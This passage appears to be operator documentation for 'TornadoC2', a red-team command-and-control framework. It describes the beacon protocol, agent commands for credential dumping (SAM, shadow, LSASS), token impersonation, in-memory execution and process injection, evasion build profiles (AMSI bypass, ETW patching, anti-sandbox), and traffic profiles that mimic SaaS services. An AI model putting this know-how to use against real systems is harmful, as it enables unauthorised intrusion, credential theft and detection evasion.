  → #1002
  → #1003
```

### What it computes

- **By domain.** `identity.domain` or `identity.userdomain`,
  uppercased.
- **By user.** `identity.username`, lowercased.
- **By subnet.** First three octets of `last_addr` (IPv4 → `/24`)
  or the network prefix of an IPv6 address (`/64`). Compressed
  forms (`2001:db8::1`), scope ids (`fe80::1%eth0`), and
  zero-run spellings all resolve to the same network string, so
  two IPv6 hosts on the same `/64` group correctly regardless of
  how the address was written.  

---

## Desktop Notifications

Three events fire notifications:

- **New beacon check-in.**
- **Kill-deadline proximity** — within 24 hours.
- **Scheduled task completion** (planned).

### Backends

Selected by `TORNADO_NOTIFY`:

| Value | Behaviour |
|-------|-----------|
| `auto` (default) | Try each backend in order: `notify-send`, `terminal-notifier`, `osascript` |
| `off` | Disable |
| `ntfy://<topic>` | POST JSON (`{"title": ..., "message": ...}`) to `<base>/<topic>`. Base defaults to `https://ntfy.sh`, override with `NTFY_URL`. A non-empty topic is required |
| `command:/path/to/script [--flag...]` | Run the script with argv `[<path>, <--flag...>, <title>, <body>]`. The command string is split with shell-word rules, so flags and paths with spaces are supported |

The `ntfy://` backend posts the title in the JSON body rather than in
an HTTP header. `urllib` encodes header values as latin-1, so a
non-ASCII title raises `UnicodeEncodeError` inside the library and
the notification is silently dropped. The body form takes UTF-8
directly.

---

## Wire Protocol

Three endpoints plus one staging endpoint.

### `POST /beacon` — check-in

Plaintext:

```json
{
  "identity": {
    "hostname": "WIN-DEV",
    "username": "alice",
    "machine_id": "…",
    "os": "windows",
    "arch": "amd64",
    "identity_role": "",
    "proto": 1,
    "kill_days": 30,
    "work_start": 480,
    "work_end": 1140
  },
  "agent_pubkey": "-----BEGIN PUBLIC KEY-----\n...",
  "identity_sig": "<base64 ECDSA signature>",
  "identity_ts": 1735689600
}
```

The `identity_role` field is not part of the signature. It is mixed
into the session fingerprint on the server side and is empty on every
build that does not set `--identity-role` explicitly or use a pivot
child transport. An empty value reproduces the pre-role fingerprint
exactly.

The signature covers `machine_id|hostname|username|os|identity_ts`
using the agent's build-time ECDSA P-256 private key. The server
rejects a check-in whose `identity_ts` is more than five minutes off,
or whose signature fails to verify against the presented public key.
A check-in without a signature falls back to trust-on-first-use with
a warning logged on the session — the path older builds take.

Encrypted:

```json
{
  "enc": "v1",
  "epk": "<base64 ephemeral public key>",
  "iv": "<base64 12-byte nonce>",
  "ct": "<base64 ciphertext+tag>"
}
```

Response:

```json
{
  "id": 1001,
  "sleep": 60,
  "jitter": 0.3,
  "kill_deadline": 1735689600.0,
  "proto": 1,
  "cookie": "<HMAC-signed token>"
}
```

### `GET /tasks` — poll for work

Header: `Cookie: sid=<HMAC-signed session cookie>`

For a **pivoted** request (SMB or TCP bind), the parent beacon also
sends:

Header: `X-Relay-Child: <child-fingerprint>`

The header name is a historical artifact of the earlier transparent-
relay design; the pivot parent sets it unchanged so the server needs
no changes. The listener resolves the cookie to the parent's session,
sees the header, and routes the request to the child's session
instead. This is how a pivoted child receives its own tasks rather
than the parent's.

Response headers carry scheduling parameters:

| Header | Meaning |
|--------|---------|
| `X-Beacon-Sleep` | New sleep interval |
| `X-Beacon-Jitter` | New jitter factor |
| `X-Beacon-Kill` | New kill deadline |
| `X-Beacon-WorkStart` | Working-hours start (minutes) |
| `X-Beacon-WorkEnd` | Working-hours end |
| `X-Beacon-SpawnTo` | Path to the sacrificial process `execute-assembly` should spawn. Empty body value is never sent; the sentinel `-` clears a previously-set path and reverts to self-spawn. Absent header means the server has not pushed a value on this poll. |

The WebSocket transport carries the same values inside the reply
envelope's `scheduling` map under the keys `sleep`, `jitter`,
`kill_deadline`, `work_start`, `work_end`, and `spawn_to`, because
a WebSocket frame has no HTTP header layer. The DNS transport
delivers the ones the agent supports as synthetic tasks — `sleep`,
`workhours`, and `spawnto` — injected into the `/tasks` reply when
the value changes.

### `POST /results` — upload output

```json
{
  "id": "3f8a2b1c",
  "output": "bWVldGluZyBhdCAxNTowMA==",
  "error": null,
  "exit_code": 0,
  "signature": "MEQCIF..."
}
```

### `GET /stage/<name>` — fetch a staged payload

Returns raw bytes. Optional AES-256-GCM encryption with
`nonce || ciphertext` when a stage key is configured.

### Malleable shaping

When a C2 profile has a `shaping` block, the response body is wrapped
in the profile's template. The payload's encoding and placement are
controlled per-shape; the profile also declares the per-role HTTP
status codes, the session cookie name, and any additional response
headers a real server would send. A proxy inspecting the wire sees a
plausible analytics response.

See [C2 Profiles](#c2-profiles) for the full schema.

---

## Native Commands

The following verbs execute **in-process** on the target. Unless a
platform restriction is stated, each runs on both Linux and Windows.

### Inspection

| Verb | Implementation |
|------|----------------|
| `cat <path>` | `os.ReadFile` |
| `ls [path]` | `os.ReadDir` + `os.Stat` |
| `readfile <path>` | Alias for `cat` |
| `find <path> [-name pat] [-size +N\|-N] [-mtime -N\|+N] [-type f\|d]` | `filepath.WalkDir` with `-name` glob, size in bytes, mtime in days |
| `grep <pattern> <path> [-r] [-i] [-l]` | `regexp` + `bufio.Scanner`; `-r` recurses, `-i` case-insensitive, `-l` lists matching files |
| `head <path> [-n N]` | `bufio.Scanner`, first N lines (default 20) |
| `tail <path> [-n N]` | `bufio.Scanner`, last N lines (default 20) |
| `stat <path>` | `os.Stat` plus mode, uid, gid, mtime, size |
| `strings <file> [-n N]` | Printable-ASCII extraction, min run length default 4 |
| `hexdump <file> [-n N] [-o offset]` | Hex + ASCII view, capped at 64 KiB by default |
| `sha1 <path>` | `crypto/sha1` streaming |
| `sha256 <path>` | `crypto/sha256` streaming |
| `md5 <path>` | `crypto/md5` streaming |
| `cksum <path>` | `hash/crc32` |
| `wc <path>` | Line/word/byte count |
| `nl <path>` | Line numbering |
| `rev <path>` | Per-line reversal |
| `sort <path>` | `sort.Strings` (or numeric with `-n`) |
| `uniq <path>` | Adjacent-duplicate collapse |
| `tr <set1> <set2>` | Byte-level translate; empty `set2` deletes |
| `base64 <path>` | `encoding/base64` encode |
| `which <cmd>` | `os.Stat` walk over `PATH` |
| `readlink <path>` | `os.Readlink` (Linux) |
| `realpath <path>` | `filepath.EvalSymlinks` + `filepath.Abs` |
| `du <path>` | `filepath.Walk` size sum |

### System

| Verb | Implementation |
|------|----------------|
| `ps` | `/proc` walk (Linux) / Toolhelp32 snapshot (Windows) |
| `id` | `os.Getuid` + `os.Getgid` (Linux) / `user.Current()` (Windows) |
| `env` | `os.Environ` |
| `pwd` | `os.Getwd` |
| `whoami` | `user.Current()` |
| `whoami /priv` | `OpenProcessToken` + `GetTokenInformation` (Windows only) |
| `hostname` | `os.Hostname` |
| `uname` | `runtime.GOOS` + `runtime.GOARCH` |
| `df [path]` | `syscall.Statfs` (Linux) / `GetDiskFreeSpaceExW` (Windows) |
| `uptime` | `/proc/uptime` (Linux) / `GetTickCount64` (Windows) |
| `date` | Local and UTC time via `time.Now()` |
| `getpid` / `getppid` | `os.Getpid` / `os.Getppid` |
| `ifconfig` | `net.Interfaces` |
| `netstat` | `/proc/net/tcp{,6}` and `/proc/net/udp{,6}` (Linux) / `GetExtendedTcpTable` and `GetExtendedUdpTable` (Windows) |
| `arp` | `/proc/net/arp` (Linux) / `GetIpNetTable` (Windows) |
| `route` | `/proc/net/route` (Linux) / `GetIpForwardTable` (Windows) |
| `users` | `/etc/passwd` (Linux) / `NetUserEnum` (Windows) |
| `groups` | `/etc/group` (Linux) / `NetLocalGroupEnum` (Windows) |
| `av-list` | Known systemd unit scan (Linux) / WMI `AntiVirusProduct` via COM (Windows) |
| `screenshot` | GDI capture to base64 PNG (Windows only — see [Screenshot](#screenshot) for the Linux refusal) |

### File ops

| Verb | Implementation |
|------|----------------|
| `mkdir <path>` | `os.MkdirAll` |
| `rm [-r] <path>` | `os.Remove` / `os.RemoveAll` |
| `cp <src> <dst>` | `io.Copy` |
| `mv <src> <dst>` | `os.Rename` |
| `chmod <octal> <path>` | `os.Chmod` (Linux) |
| `ln [-s] <target> <link>` | `os.Symlink` (Linux) |
| `touch [-r <ref>] <path>` | `os.OpenFile` with `O_CREATE`, optional reference mtime |
| `gzip <file>` | `compress/gzip` |
| `gunzip <file>` | `compress/gzip` |

### Network

Three verbs speak their protocols directly from the agent's own
socket. No `/bin/curl`, no `dig`, no `/bin/nc`.

- **`curl <url>`** — HTTP/HTTPS client with `-X`, `-H`, `-d`, `-A`,
  `-k`, `-i`, `-L`, `-o`, `-m`, `--max-size`.
- **`resolve <host> [type]`** — DNS lookups for A, AAAA, CNAME, MX,
  NS, TXT, PTR.
- **`nc <host> <port>`** — TCP connect / banner grab with `-z`,
  `-w`, `--send`.

### Credential collection

| Verb | Implementation |
|------|----------------|
| `hashdump [<outdir>]` | Windows: `SeBackupPrivilege` via `AdjustTokenPrivileges`, `RegSaveKeyExW` on `HKLM\SAM` and `HKLM\SYSTEM`. Linux: reads `/etc/passwd` and `/etc/shadow`, merges on username into `unshadow(8)` format. Both return a JSON envelope; the client stores the files and, on Windows, optionally runs `secretsdump.py`. |
| `enablepriv <--list\|--list-all\|--vuln\|<privilege> [--disable]\|--all [--disable]>` | `OpenThreadToken` (falling back to `OpenProcessToken`), `LookupPrivilegeValueW`, `AdjustTokenPrivileges`. The privilege catalogue and risk buckets live on the client, not the agent. Windows only. |
| `lsassdump --dump [--fork] [--duplicate] [--elevate] [--out <path>]` | Direct `MiniDumpWriteDump` via `dbghelp.dll`, with `NtCreateSection` + `NtCreateProcessEx` and system handle-table walk fallbacks. Windows only — see [LSASS minidump](#lsass-minidump). |

### Execution

| Verb | Description |
|------|-------------|
| `exec <cmd> [args...]` | Direct spawn; argv visible in `ps` |
| `sh <cmd> [args...]` | stdin-piped shell; the command does not appear in argv |
| `make_token <DOMAIN\\user> <password> \| --revert` | Windows. `LogonUserW(LOGON32_LOGON_NEW_CREDENTIALS)` builds a logon-type-9 token and installs it in the same slot `steal_token` uses. Every subsequent `exec` runs as that user. The verb accepts `DOMAIN\user`, `user@domain`, or a bare `user`; the token is validated on first network use, not at build time. `--revert` is an alias for `rev2self` |
| `rev2self` | Windows. `RevertToSelf` plus a slot clear. Drops whichever token is held — from `steal_token` or from `make_token` — and returns the calling thread to the process default |
| `runas <DOMAIN\\user> <password> <command> [args...]` | Windows. `CreateProcessWithLogonW` with `LOGON_WITH_PROFILE`, hidden window, returns the new PID immediately. Does not wait for the child and does not capture its output; use `make_token` + `exec` when output is needed. Requires the Secondary Logon (`seclogon`) service |

### Scheduling

| Verb | Description |
|------|-------------|
| `sleep <N> [jitter]` | Update check-in interval |
| `workhours <start> <end>` | Update working-hours window |
| `spawnto <path>` | Update the sacrificial process used by `execute-assembly` (Windows). `spawnto -` clears the value and reverts to self-spawn |
| `kill` / `exit` | Self-destruct |

### In-memory execution and transfer

These execute without a subprocess:

| Verb | Implementation |
|------|----------------|
| `truncate <path>` | `os.OpenFile` with `O_TRUNC` |
| `writechunk <b64> <path>` | base64 decode + append |
| `readchunk <path> <off> <size>` | `os.Open` + `Seek` + `Read` |
| `filesize <path>` | `os.Stat` |
| `sha256file <path>` | streaming SHA-256 |
| `execute_assembly <b64> <args>` | spawn sacrificial worker; worker hosts CLR, loads assembly with `Assembly.Load(byte[])`, captures stdout/stderr to a file the parent reads |
| `execmem <path> <exe\|elf>` | platform-specific in-memory loader |
| `bof <b64_coff> <entry> <b64_args>` | in-process Go COFF loader |
| `migrate <--self\|pid\|name> [--method <name>]` | detach-spawn or foreign-process injection; `--method default\|apc` selects the injection backend (see [Migration](#migration)) |

`exec` is the only verb that spawns a child process. `sh` routes a
command through a stdin-piped shell. `pyexec`, `psexec`, `shexec`, and
`sh` all accept a `--stdin` first argument, which reads the source from
the operator's terminal in paste mode instead of from a local file. The
input terminator is a line containing only `.`.

---

## Cryptography

### Task signing

The handler generates a fresh ECDSA P-256 keypair at startup,
persisted under `.keys/server/handler_signing.key`. Every task is
signed with the private key; the agent refuses to execute any task
whose signature fails to verify.

The signature covers the canonical JSON of `{id, verb, args, timeout}`
serialised with sorted keys and no whitespace.

### Identity signing

Every check-in carries an ECDSA P-256 signature over
`machine_id|hostname|username|os|identity_ts`, using the agent's
build-time private key. The server verifies the signature against the
presented public key before pinning the session. A malformed or
out-of-window signature rejects the check-in outright; a missing one
falls back to trust-on-first-use with a session warning.

The signed payload is deliberately excluded from the machine
fingerprint. Two check-ins from the same machine at different times
produce the same fingerprint because only the four stable identity
fields (plus the optional identity role, when set) are hashed.

The **identity role** is not part of the signature. It is carried in
its own `identity_role` field on the check-in identity and is mixed
into the fingerprint only when non-empty. An agent built without a
role produces the same fingerprint it always did; an agent built
with a role produces a distinct fingerprint from an otherwise
identical agent without one. See
[Session lifecycle](#session-lifecycle) for the full model.

### Result signing

The agent's keypair is generated at build time and embedded as a base64
PEM. The public half is presented at first check-in and pinned for the
session's lifetime. Every result is signed; the server verifies before
delivering the output to the waiting task.

### Wire encryption

Every request and response body is wrapped in an AES-256-GCM envelope.
The key is derived from a P-256 ECDH exchange.

**Pivot session.** SMB and TCP pivot children carry their C2 frames
inside an AEAD-encrypted pivot session — a peer-to-peer tunnel
between the child and its parent. The parent's own connection to the
team server uses wire encryption as usual. A pivoted child may itself
enable wire encryption: the pivot session and the server ECDH session
are independent layers, and the parent carries the child's ciphertext
opaquely. The pivot session is keyed off an engagement-wide ECDSA
P-256 pivot keypair and derives per-direction AES-256-GCM keys via
HKDF-SHA256. See [Pivot Transports](#pivot-transports) for the full
model.

---

## Key Management

| Path | Purpose |
|------|---------|
| `.keys/server/handler_signing.key` | Handler-side ECDSA private key for task signing |
| `.keys/server/server_ecdh.key` | Server-side ECDH private key for wire encryption |
| `.keys/agent/agent_signing.key` | Agent-side ECDSA private key for result signing and identity signing |
| `mtls_certs/pivot.pem` (operator-supplied) | Engagement-wide ECDSA P-256 pivot keypair. Private half embedded in every pivot listener; public half in every pivot client. Not generated by the handler — supply it at build time with `--pivot-key` |

All three live under two directories, both `0700`, with key files
`0600`:

- **`.keys/server/`** holds secrets used by the handler process alone.
  A compromise of `handler_signing.key` lets an attacker forge tasks to
  any beacon. A compromise of `server_ecdh.key` combined with a captured
  ephemeral pubkey lets an attacker decrypt wire traffic.
- **`.keys/agent/`** holds the private key that gets embedded into
  every built agent. A compromise lets an attacker forge results and
  identity signatures for any agent built from this server's keypair.
  Keeping it in its own directory means a backup tarball of
  `.keys/server/` alone does not leak the agent key.

The agent's private key is **the same across every agent built from
this server**. Rotating it requires rebuilding every deployed agent.
Treat it as one of the highest-value secrets in the deployment.

The key lives at `.keys/agent/agent_signing.key`, under the
repository root. Both the local console's build path and the remote
build manager set `agent_keypair_path` to that location; the file
is generated on first build if it does not exist. Back it up
alongside `.keys/server/` — losing it means every deployed agent
must be rebuilt before result and identity signatures verify again.

The pivot keypair is a separate secret with a different blast radius.
A leaked pivot private key allows impersonating a pivot listener to
any pivot client, but does **not** allow decrypting the child's C2
traffic to the team server — that requires the server ECDH key. A
leaked pivot public key reveals nothing: it is embedded in every
pivot client and is recoverable from any captured binary.

### Rotation

- `handler_signing.key` — regenerating it invalidates every
  currently-queued task. The next handler start picks up the new key.
  Deployed agents accept any valid signature from the current key; no
  rebuild is needed.
- `server_ecdh.key` — regenerating it breaks every agent built against
  the old public key. The build embeds the current server's ECDH public
  key at build time; changing the key requires rebuilding.
- `agent_signing.key` — regenerating it invalidates the embedded key in
  every deployed agent. Result signatures and identity signatures from
  old agents stop verifying. **Rebuild every agent.**
- `mtls_certs/pivot.pem` — regenerating it invalidates the embedded key
  in every deployed pivot listener and pivot client. Existing pivots
  stop handshaking on their next reconnect. **Rebuild every parent
  and every child.**
- **Session cookies** — use `rotate-cookies` from the local console to
  force every live session to re-check-in without restarting the
  handler. Useful during incident response when a cookie is suspected
  to have leaked. 

---

## Backup and Recovery

### What to back up

Not everything under the repository tree needs saving. What matters:

| Path | Priority | Why |
|------|----------|-----|
| `.keys/server/handler_signing.key` | **Critical** | Regenerating it invalidates every queued task; deployed agents do not need a rebuild |
| `.keys/server/server_ecdh.key` | **Critical** | Regenerating it invalidates every deployed agent. Losing it without a backup means rebuilding everything |
| `.keys/agent/agent_signing.key` | **Critical** | Same as above, plus result and identity signature verification stops working for every existing agent |
| `mtls_certs/pivot.pem` | **Critical** | Regenerating it invalidates every deployed pivot listener and client |
| `team_ca/ca.pem` + `ca.key` | **Critical** | Losing it means every operator config is invalid and every operator needs a new one |
| `team_ca/operators.json` | **High** | Contains the scrypt hashes for password-protected operators |
| `team_ca/operators/<name>/` | **Low** | Regenerable from the registry as long as the CA is intact |
| `logs/audit/` | **High** | The hash-chained audit record — the only durable evidence of operator actions |
| `logs/creds.json` | **High** | The credential vault, if the engagement still needs it |
| `logs/lootstore/` | **Medium** | Regenerable from any live beacon that still has the file |
| `bofs/` + `logs/.tornadoc2_bofs.json` | **Low** | Regenerable from operators' local copies |

### Backup strategy

The `.keys/` and `team_ca/` directories are the crown jewels. A
single misconfigured backup should not leak them, which is why the
server keeps `.keys/server/` and `.keys/agent/` in separate
directories — a backup tarball of one does not leak the other.

```bash
# Minimal safe backup
tar czf tornado-backup-$(date +%Y%m%d).tgz \
    .keys/ \
    team_ca/ca.pem team_ca/ca.key \
    team_ca/operators.json \
    mtls_certs/pivot.pem \
    logs/audit/
```

Store the tarball offline and encrypted. Rotate it on the same
schedule as any long-lived secret.

### Recovery

To restore, extract the tarball over a fresh checkout and start
the handler. The bootstrap detects the existing files and skips
regeneration. Deployed agents continue to check in against the
restored keys; queued tasks survive if the audit log was intact;
live sessions reconnect on their next poll.

If `.keys/agent/agent_signing.key` is lost and cannot be
restored, every deployed agent must be rebuilt. Result and
identity signature verification will fail for every existing
agent until they are replaced.

---

## OPSEC Profiles

| Profile | Features | Use case |
|---------|----------|----------|
| `default` | None | Lab testing |
| `stealth` | String obfuscation | Standard engagements |
| `opsec` | String obfuscation, garble, AMSI bypass, ETW patch, anti-sandbox, anti-debug, anti-VM, PPID spoof, sleep mask (`aes-ctr`), indirect syscalls | Monitored environments |
| `paranoid` | Everything in `opsec` plus the fiber-based `cronos` sleep mask and UPX | High-risk targets with mature EDR |

The `paranoid` profile sets `sleep_mask: "cronos"`. `cronos` is
Windows-amd64 only; a build that pairs `--profile paranoid` with a
Linux or arm64 target is refused at build time with an error naming
the combination. Override with `--sleep-mask aes-ctr` (or `rc4`,
or `none`) for a non-amd64-Windows build, or use the `opsec`
profile, which works on every target.

The `hwbp` mask is available as an explicit `--sleep-mask hwbp`
choice, not as an OPSEC profile setting. It carries a higher
detection cost than `cronos` because the debug-register writes are
individually observable, and it is not the default for any
profile.

**Compile-time configuration means the binary is the configuration.**
Rebuilding is the only way to change the callback URL, sleep interval,
or evasion features.

### Anti-analysis caveat

`antivm` and `antisanbox` are aggressive. When a beacon built with
these flags runs inside a VM, it exits silently. Test builds on
virtualised infrastructure must disable them.

---

## C2 Profiles

C2 profiles decouple the HTTP fingerprint from the build.

### Concurrent multi-profile handlers

The handler serves **every** profile under `profiles/c2/`
simultaneously. When the listener starts, it scans the directory,
parses each JSON file, and registers the profile's three declared
paths (`beacon_path`, `tasks_path`, `results_path`) as routes on
the Flask app. At runtime, an incoming request is routed to the
profile that declared its path, and the response is shaped by that
profile.

There is no "active profile" state. The path in the request *is*
the profile selector. A beacon built against `chrome` uses
`/api/v1/analytics/collect` for check-in; a beacon built against
`slack` uses `/api/client.connect`. Both reach the same listener
on the same port; each gets the response shape its own profile
declared.

**The profile set is fixed at startup.** The directory is scanned
once, when the handler boots. There is no file watcher, no
hot-reload, and no console command to reload profiles. To add,
change, or remove a profile, stop the handler, edit the directory,
and start it again. The queue and the session registry survive the
restart; deployed beacons reconnect on their next poll and resume.
See [Startup-time configuration](#startup-time-configuration) in
the design philosophy for why this is deliberate rather than a
missing feature.

This is different from the single-profile-per-server model that
Cobalt Strike, Sliver, Havoc, and Brute Ratel use. The operational
consequences:

| Scenario | Single-profile frameworks | TornadoC2 |
|----------|---------------------------|-----------|
| Two profiles, one engagement | Two team servers on two ports, or a restart | One handler, one port, one console |
| Build a new agent with a new profile | Restart the team server (killing live sessions) or spin up a second one | Build and deploy; the handler already serves the new profile once the JSON is in the directory and the handler has restarted |
| A profile's paths get flagged by a proxy | Restart the team server with a new profile; all beacons re-check-in and may fail | Rebuild the affected agents; other profiles on the same handler are unaffected |
| Phased engagement (stealth early, loud later) | Two team servers, or accept that you cannot | Two profiles, one handler, build the right agent for each phase |
| New profile for experimentation | Separate team server for testing | Drop the JSON in `profiles/c2/`, restart the handler, it is live. No second server, no separate port, no separate certificate |

The architecture scales without bound. Startup cost is one
directory scan and one route registration per profile; runtime
cost is an O(1) path lookup per request. Thirty profiles ship
in-tree; a thousand would not change the model.

**Narrowing to one profile.** Pass `--beacon-profile <name>` to
register only that profile's routes. Useful during a focused
engagement where the operator wants strict isolation, or when the
directory contains experimental profiles that should not be
reachable from the wire. Without the flag, every profile is loaded.

**Path collision rule.** Two profiles cannot declare the same path
for the same role. The handler refuses a profile whose paths
collide with an already-loaded profile's paths, and the profile
fails to load with a specific error naming the collision. This
keeps the routing table unambiguous — a path always resolves to
exactly one profile.

**`stager.path` is outside the collision rule today.** The
`stager.path` block registers an additional route, and the
listener does not currently check it against a
`beacon_path`/`tasks_path`/`results_path` or against another
profile's `stager.path`. A profile whose `stager.path` matches a
route an earlier-loaded profile already owns is silently ignored;
a profile whose `stager.path` matches another profile's
`stager.path` produces one serving route and one no-op. The
recommended practice is to keep `stager.path` distinct from
every other route in the directory. The full fix is on the code
side — the collision check should include `stager.path` — and is
tracked as a known gap rather than an authoring rule.

```json
{
  "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
  "linux_user_agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
  "beacon_path":  "/api/v1/analytics/init",
  "tasks_path":  "/api/v1/analytics/poll",
  "results_path": "/api/v1/analytics/event",
  "extra_headers": {
    "Accept": "application/json, text/plain, */*",
    "Authorization": "Bearer ya29.a0AfH6SMB..."
  },
  "request_headers": {
    "Origin": "https://app.example.com"
  },
  "cookie_name": "session",
  "status": {
    "beacon":  200,
    "tasks":   200,
    "results": 204,
    "error":   404
  },
  "response_headers": {
    "Cache-Control": "no-store",
    "X-Content-Type-Options": "nosniff",
    "Server": "nginx"
  },
  "shaping": {
    "checkin_response": {
      "template": {
        "data": { "envelope": { "b64": "{{payload}}" } }
      },
      "extract": "data.envelope.b64",
      "encoding": "base64"
    },
    "tasks_response": {
      "template": {
        "data": { "envelope": { "b64": "{{payload}}" } }
      },
      "extract": "data.envelope.b64",
      "encoding": "base64url",
      "placement": {"kind": "header", "name": "X-Request-ID"}
    },
    "results_request": {
      "template": {
        "payload": "{{payload}}"
      },
      "extract": "payload",
      "encoding": "hex"
    }
  },
  "dns_label": {
    "verb_b": "x",
    "verb_t": "y",
    "verb_r": "z",
    "payload_chunk_size": 48
  },
  "stager": {
    "path": "/api/v1/assets/update.bin"
  }
}
```

The tree ships with thirty profiles covering enterprise SaaS,
developer infrastructure, and consumer applications:
`amazon`, `apple-icloud`, `aws-s3`, `azure-blob`, `chrome`,
`cloudflare`, `discord`, `dns`, `dropbox`, `github`, `gitlab`,
`google-analytics`, `google-drive`, `instagram`, `jira`, `linkedin`,
`notion`, `o365`, `okta`, `onedrive`, `salesforce`, `shopify`,
`slack`, `spotify`, `stripe`, `teams`, `telegram`, `webex`,
`youtube`, `zoom`.

The `dns` profile is a special case: it declares only a
`dns_label` block and no shaping, and is intended for builds with
`--transport dns` or `--transport doh`. It reaches the same
listener as any other profile, but the DNS and DoH transports read
only its `dns_label` block and ignore everything else.

**Choosing a profile is a deployment decision, not an aesthetic one.**
The blend only works if the target network already expects that class
of traffic. A profile that mimics Instagram is unremarkable on a
consumer network and highly suspicious on an OT segment where no one
has a phone. A profile that mimics ServiceNow is invisible on an
enterprise network and impossible on a startup's. Pick the profile
whose presence is boring on the target's egress path.

Two operational notes on profile selection:

- **Pair the C2 profile with a matching `--tls-profile`.** A C2
  profile that claims a Chrome User-Agent while the TLS ClientHello
  is the Go standard library is a two-signal mismatch: a passive
  observer who fingerprints the handshake sees Go, not Chrome, and
  the User-Agent becomes evidence rather than cover. Build with
  `--c2-profile <name> --tls-profile chrome` for the consumer and
  enterprise profiles in the tree. The flag applies to HTTP, DoH,
  and WebSocket; it is accepted but ignored on QUIC and WireGuard.
- **Profiles are only as deep as their JSON.** The framework blends
  at the URL and body layer. Certificate pinning, client attestation,
  and behavioural profiling are outside its scope. See
  [What this tool does not claim](#what-this-tool-does-not-claim)
  for the full list of limits.

### Placeholders

| Placeholder | Substitute |
|-------------|-----------|
| `{{payload}}` | The encoded payload (see Encoding below) |
| `{{ts}}` | Current Unix epoch |
| `{{nonce}}` | Random 16-hex-char string |

### Encoding

Each shape's `encoding` field selects how the payload bytes are
serialised before being placed in the template. Recognised values:

| Value | Transform |
|-------|-----------|
| `base64` | Standard base64 with padding. The historical default when the field is absent. |
| `base64url` | URL-safe base64, no padding. |
| `hex` | Lowercase hex. Two characters per byte. |
| `netbios` | Each byte as two lowercase letters a–p, one per nibble. Reads as a plausible short word on the wire. |

An empty or unrecognised value falls back to `base64`. The agent's
`ValidateShapingSpec` round-trip exercises the declared encoding at
build time, so a shape whose `extract` path does not recover the
encoded payload is refused before the binary is written.

### Placement

Each shape's `placement` field names where in the HTTP response the
encoded payload rides.

| Kind | Behaviour |
|------|-----------|
| `body` (default) | The payload is the response body. |
| `header` | The payload is the value of the named response header, and the body becomes a `{}` stub. |
| `cookie` | The payload is the value of the named `Set-Cookie`, and the body becomes a `{}` stub. |

The `name` field is the header or cookie name and is validated
against a conservative character class. A profile with an
unsupported kind, or with a name that fails validation, falls
through to `body` — the request succeeds with the historical
response shape rather than failing on a bad profile.

**Placement applies only to responses.** The `checkin_response`
and `tasks_response` shapes describe bodies the listener produces
and the agent consumes; both are HTTP responses and both honour
placement. The `results_request` shape describes a body the
agent produces and the listener consumes; it is an HTTP *request*
from the agent, and placement has no meaning for it. A
`placement` block on `results_request` is silently ignored on
both sides — the payload stays in the body, whatever the block
says.

**WebSocket ignores placement.** A WebSocket frame is a JSON
envelope with no HTTP header layer, so a `placement: header` or
`placement: cookie` block has nowhere to write. The listener sets
`TORNADO_WS` in the request environment and `_apply_placement`
leaves the payload in the body; the WebSocket dispatcher repacks
it as-is. On the agent side, the WebSocket transport reads the
shaped body directly and has no placement code.

**QUIC honours placement.** The QUIC listener subclasses
`BeaconListener` and returns the Flask response verbatim, so
header and cookie placement travel back on the HTTP/3 response
exactly as they do on HTTP/1.1.

### Status codes

The `status` block declares the per-role HTTP status code the
listener returns. Any zero or absent field falls back to the
framework default.

| Field | Default | Role |
|-------|---------|------|
| `beacon` | 200 | Successful check-in |
| `tasks` | 200 | Successful task poll |
| `results` | 204 | Successful result upload |
| `error` | 404 | Any error path — malformed request, unknown session, refused check-in |

A profile that mimics an API returning `201 Created` on results, or
`404 Not Found` on a successful check-in, declares that here. The
agent reads the same fields from its embedded profile and compares
the actual response code against the declared value.

The default `error` code is 404, matching the historical listener
behaviour. The agent treats a 401 or 404 on a `/tasks` poll as a
session loss and re-checks in, so a profile that overrides `error`
should choose a value the agent will not mistake for a session
failure — or leave the field unset.

### Cookie name

The `cookie_name` field names the session cookie. The historical
value is `sid`; production web applications rarely use it.
Common alternatives: `session`, `SESSIONID`, `JSESSIONID`,
`PHPSESSID`.

The listener writes `Set-Cookie: <cookie_name>=<value>; Path=/;
Secure; HttpOnly`, reads the same name from incoming requests, and
the WebSocket dispatcher uses the same name for its request header
and its response extraction. The Go transports send `Cookie:
<cookie_name>=<value>` on every subsequent request.

A profile that declares a `cookie_name` containing characters
outside `[A-Za-z0-9._-]` is refused; the field falls through to
`sid`.

### Response headers

The `response_headers` block is a map of header names to values
that the listener merges onto every successful response — check-in,
tasks, and results. Real servers send `Server`, `Cache-Control`,
and a handful of `X-*` headers; a response with only
`Content-Type` stands out.

Header names and values are validated against `\r`, `\n`, and
`\0` at load time, so a malformed profile cannot inject a
header-splitting payload. A name or value that fails validation
is dropped silently; the response is sent without that header
rather than refused.

Response headers are merged after the framework-set headers
(`Content-Type`, `Set-Cookie`, the `X-Beacon-*` scheduling
headers) — the profile can override `Server` and `Cache-Control`,
but not the ones the C2 protocol depends on.

**QUIC honours response headers.** The HTTP/3 response carries
every header the Flask response object was given.

### DNS label shaping

The `dns_label` block renames the three DNS verb characters and
changes the per-chunk payload length. It applies to the DNS and
DoH transports only; every other transport ignores it.

| Field | Default | Effect |
|-------|---------|--------|
| `verb_b` | `b` | The check-in verb character |
| `verb_t` | `t` | The tasks verb character |
| `verb_r` | `r` | The results verb character |
| `payload_chunk_size` | `63` | Base64url characters per chunk label, 1–63 |

Each verb must be a single lowercase alphanumeric character. A
malformed block — a multi-character string, an empty value, a
character outside the lowercase alphanumeric set — falls through
to `b`/`t`/`r` on both sides, one verb at a time. The default
applies to the offending verb only; the other two keep whatever
the profile declared.

A block that reuses the same character for two different verbs is
handled differently: the collision resets **all three** verbs to
`b`/`t`/`r` at once, on both sides. The reasoning is that the
server dispatches on the first label; a collision between any two
verbs means a whole class of queries would be routed to the wrong
handler, and partial reset would leave one of them routed
ambiguously. Either the block is internally consistent or it is
ignored as a whole.

The chunk size is bounded at 63 (the DNS label maximum). A value
of 0 or an out-of-range value falls through to 63. A smaller
value makes the queries look less like a fixed-shape tunnel to a
label-length heuristic, at the cost of a larger query count per
logical request.

**The value reaches the agent through a linker flag, not through
`ProfileJSON`.** The builder reads the block from the profile and
emits `-X main.DNSVerbB=…`, `-X main.DNSVerbT=…`,
`-X main.DNSVerbR=…`, and `-X main.DNSPayloadChunkSize=…`. The
